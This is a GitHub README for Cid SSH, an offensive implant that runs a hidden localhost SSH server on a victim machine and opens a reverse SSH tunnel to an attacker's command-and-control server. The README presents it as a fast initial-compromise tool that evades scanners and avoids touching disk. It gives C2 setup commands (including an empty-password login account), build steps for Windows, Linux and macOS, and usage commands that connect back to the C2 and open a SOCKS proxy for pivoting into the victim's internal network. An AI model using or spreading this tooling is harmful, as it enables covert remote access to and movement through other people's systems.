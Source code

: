 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

This is a statically compiled tool (no dependencies needed) that can be used to create a SSH server and as SSH client. It will firstly, spin up an SSH server (listening in `localhost` and by default in port 2222), create certificates for it and finally create a reverse SSH tunnel with the C2. Due to the SSH server listens at `localhost`, automated scanners won't be able to detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple and not interactive shell.

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous
```

Allow blank passwords for SSH sessions of anonymous in `/etc/ssh/sshd_config`:
```PermitEmptyPasswords yes```

Restart sshd:
```systemctl restart ssh```

### Client
You can just use the prebuilt binaries that are in [Release](https://github.com/illera88/Cid-SSH/releases/tag/v1.0). 

If you want to compile from source keep reading

### Compilation on Windows
Compiling the client is somehow tricky because `libssh` (the library we use to handle SSH communications) does not support creating a SSH server using certificates from memory but they need to exist in disk. Since we are 3l373 hackers we don't want to drop any file to disk so I modified the `libssh` code. 

You can find the modified code [here](https://github.com/illera88/libssh_mod) or getting the prebuilt libraries [here](https://github.com/illera88/PrecompiledLibraries/tree/master/windows/libssh_mod)

To compile it just make sure you add the includes and libraries for:
- libssh_mod 
- zlib
- openssl

You can find all of them already prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).

### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 
We have a dockerfile to do the compilation more easy `Dockerfile_linux_static`.
These are the steps to build and get the compiled binary from the container:
```
# Build the image, install dependencies and compile CidSSH
sudo docker build -t alpine_cid_ssh -f Dockerfile_linux_static .
# Copy the binary from the docker container to the current folder
sudo docker run -v `pwd`:/data_out -i -t alpine_cid_ssh:latest /bin/sh -c "cp /Cid-SSH/build/CidSSH /data_out/"
```

### Compilation on MacOs
Install/compile dependencies:
```
brew install openssl
```

Compile CidSSH:
```
cd ~/shared/SSHIUU/src/
mkdir build && cd build
git clone git clone https://github.com/illera88/PrecompiledLibraries
cmake -DCMAKE_BUILD_TYPE=Release -DLIBSSH_STATIC_PATH=PrecompiledLibraries/macos/libssh_mod/ .. &&
make
```

## Using it
It's very easy. In the attacked machine:
```
Cid-SSH.exe 192.168.15.135
```

In the C2:
```
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p 2222 -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```